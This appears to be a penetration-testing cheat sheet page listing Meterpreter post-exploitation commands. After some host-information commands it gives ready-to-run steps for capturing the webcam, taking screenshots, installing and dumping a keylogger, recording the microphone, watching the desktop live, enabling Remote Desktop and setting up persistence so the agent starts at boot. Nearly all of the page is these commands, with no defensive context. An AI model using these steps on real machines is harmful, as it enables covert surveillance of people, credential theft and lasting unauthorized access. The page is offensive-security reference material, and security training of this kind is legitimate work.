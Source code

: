 # Meterpreter post-exploitation commands

[Go back](../index.md#meterpreter)

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ Random commands

```shell!
meterpreter> idletime # time the host was idle
meterpreter> ipconfig # network information
meterpreter> localtime # time and date
meterpreter> getenv PATH # get PATH
meterpreter> checksum <file> # get file checksum
```
</div><div>

All the commands below require administrative/root privileges.

<details class="details-e">
<summary>Take control of the webcam</summary>

```shell!
meterpreter> webcam_list
meterpreter> webcam_snap
```
</details>

<details class="details-e">
<summary>Take a screenshot</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> use espia
meterpreter> screengrab
```

You may also use `screenshot` 📌.
</details>

<details class="details-e">
<summary>Install a keylogger</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> keyscan_start # start
meterpreter> keyscan_dump # dump keys
```
</details>

<details class="details-e">
<summary>Watch the screen in real time</summary>

Watch the remote user desktop in real time

```shell!
meterpreter> screenshare
meterpreter> record_mic # Record audio from the default microphone for X seconds
```
</details>

<details class="details-e">
<summary>Record microphone</summary>

Record audio from the default microphone for X seconds

```shell!
meterpreter> record_mic
```
</details>

<details class="details-e">
<summary>Enable Remote Desktop Protocol</summary>

```shell!
meterpreter> run post/windows/manage/enable_rdp
```
</details>

<details class="details-e">
<summary>Persistence</summary>

See [METERPRETER SERVICE](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/).

```shell!
meterpreter> # Automatically start the agent when the system boots
meterpreter> run persistence -X
```
</details>
</div></div>